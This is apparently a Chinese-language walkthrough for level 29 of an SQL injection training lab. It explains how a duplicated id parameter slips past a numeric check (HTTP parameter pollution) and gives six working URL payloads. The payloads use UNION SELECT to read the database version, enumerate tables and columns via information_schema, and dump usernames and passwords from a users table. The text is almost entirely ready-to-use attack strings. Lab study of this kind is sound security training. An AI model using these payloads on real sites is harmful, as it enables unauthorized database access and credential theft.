






# Less-29

二十九关就是会对输入的参数进行校验是否为数字，但是在对参数值进行校验之前的提取时候只提取了第一个id值，如果我们有两个id参数，第一个id参数正常数字，第二个id参数进行sql注入。sql语句在接受相同参数时候接受的是后面的参数值。

所以用注入语句

~~~ cmd
?id=1&id=-1'--+
~~~

~~~ cmd
?id=1&id=-1%27%20union%20select%201,2,3--+
~~~

~~~ cmd
?id=1&id=-1%27%20union%20select%201,version(),database()--+
~~~

~~~ cmd
?id=1&id=-1%27%20union%20select%201,database(),group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27security%27--+
~~~

~~~ cmd
?id=1&id=-1%27%20union%20select%201,database(),group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27users%27--+
~~~

~~~ cmd
?id=1&id=-1%27%20union%20select%201,database(),group_concat(username,password)%20from%20users--+
~~~

